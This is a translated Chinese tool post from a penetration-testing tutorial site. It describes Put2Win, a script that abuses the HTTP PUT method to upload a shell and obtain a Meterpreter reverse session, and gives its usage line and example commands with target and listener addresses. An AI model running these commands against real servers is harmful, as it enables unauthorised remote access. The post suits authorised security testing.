

# PUT 2 win–通过 PUT HTTP 方法获取 Meterpreter 来自动化 Shell 上传的脚本

> 原文：<https://kalilinuxtutorials.com/put2win-script-automatize-shell-upload/>

Put2Win 是一个脚本，通过 PUT HTTP 方法来获取 meterpreter，从而实现 shell 上传的自动化。正确的操作需要安装 nmap 和 msfvenom 工具。[](https://asciinema.org/a/0GFJCJzRQZBlWYAxco2ONqODZ)

**又读**[**Joomscan–OWASP Joomla 漏洞扫描器项目**](https://kalilinuxtutorials.com/joomscan-owasp-vulnerability-scanner/)

## **Put2Win 用法**

```
**./Put2win.sh -h**
```

这个脚本通过使用 HTTP 方法来获取 meterpreter，从而实现了 shell 上传的自动化。

```
Usage: ./Put2win.sh -t TARGET [-p PORT] -u URL_PATH -l LHOST
```

示例:

```
**./Put2win.sh -t 192.168.1.80 -u /uploads -l 192.168.1.10**
**./Put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10**
```

[ ](https://github.com/sysdevploit/put2win) **信用:@devploit**